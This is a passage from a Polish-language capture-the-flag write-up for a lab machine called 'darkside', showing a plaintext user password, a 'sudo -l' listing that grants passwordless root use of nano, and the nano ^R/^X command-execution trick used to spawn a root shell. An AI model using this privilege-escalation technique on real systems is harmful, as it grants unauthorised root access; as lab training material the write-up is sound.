 ```bash
ILoveJabita
ls /home/rijaba
```
# 07. rijaba
Użytkownik **rijaba** ma dostęp do programu **Nano** (Nie wiem po co  w realnym świecie, ktoś miałby mu to dawać, ale to nieważne ;), ale dostęp jest.
{: .text-justify}
```bash
rijaba@darkside:/home/kevin$ sudo -l
Matching Defaults entries for rijaba on darkside:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User rijaba may run the following commands on darkside:
    (root) NOPASSWD: /usr/bin/nano
rijaba@darkside:/home/kevin$ 
```
A jak wiadomo przez **Nano** można uruchamiać różne programy, w tym **Bash**. Sztuczka polega na tym, że w programie  odczytujemy plik **^R**, i zamiast podać ścieżkę do pliku, uruchamiamy komendę uruchamiającą, czyli **^X**. Następnie w "command to execute" wpisujemy _reset;_
{: .text-justify}
# 08. root
```bash
sudo /usr/bin/nano
```
![Alt text](/assets/images/hacking/2023/02/03.png)
Jest root
![Alt text](/assets/images/hacking/2023/02/04.png)
